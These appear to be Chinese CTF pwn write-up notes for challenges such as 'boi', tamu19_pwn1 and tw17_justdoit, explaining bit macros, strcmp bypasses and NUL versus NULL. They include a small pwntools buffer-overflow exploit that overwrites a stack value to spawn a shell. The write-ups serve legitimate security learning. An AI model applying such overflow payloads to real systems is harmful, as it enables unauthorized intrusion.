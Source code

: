 HIDWORD是说，取高字节部分。

> \#define LOWORD(l)           ((WORD)((DWORD_PTR)(l) & 0xffff))
> \#define HIWORD(l)           ((WORD)((DWORD_PTR)(l) >> 16))
> 这是windef.h头文件中对宏LOWORD和HIWORD的定义。
> 作用分别是取出无符号长整型参数的高16位和低16位。
> 因为一个长整型占32位，其中高低16位的值可能有不同的意义，需要通过这2个宏分别取出来使用。取出来的结果是一个无符号短整型的值。
> 其原理正如定义那样，取低16位的宏LOWORD使用按位与操作符与数字0xffff运算，而数字0xffff是一个低16位全为1的数字，那么对其位与操作可以得到参数的低16位。
> 而取高16位的宏HIWORD则更简单，只需将参数右移16位，剩下的就是原高16位的值了。
>
> 取自百度

右移分为逻辑右移和算数右移。全零操作是逻辑右移。

exp:

```python
from pwn import *
p=process('./boi')
p.recvuntil("Are you a big boiiiii??\n")
payload=b'a'*0x10+p32(0x0)+p32(0xCAF3BAEE)
p.send(payload)
p.interactive()
```



## tamu19_pwn1

```c
  if ( strcmp(s, "Sir Lancelot of Camelot\n") )
  {
    puts("I don't know that! Auuuuuuuugh!");
    exit(0);
  }
```

绕过if判断，就要使

- strcmp(s, "Sir Lancelot of Camelot\n")返回0。

什么时候返回0？当

- s="Sir Lancelot of Camelot\n"

## tw17_justdoit

**NUL** 被用于C语言中，表示字符串的结束，当一个字符串中间出现 NUL 时，就意味着这个是一个字符串的结尾了。**NUL** 是ASCII 字符集中 '\0' **字符**的名字，它的字节模式为全 0。

>  NULL是一个宏，它在几个标准头文件中定义，
>
> 0是一个整型常量，
>
> '\0'是一个字符常量，
>
> 而NUL是一个字符常量的名字。这几个术语都不可互换。
>
>  1、NULL用于表示什么也不指向，也就是空指针((void *)0)
>
>  2、0可以被用于任何地方，它是表示各种类型零值的符号并且编译器会挑出它
>
>  3、'\0'应该只被用于结束字符串
>
>  4、NUL没有被定义于C和C++，它不应该被使用除非你自己定义它，像：#define nul '\0'
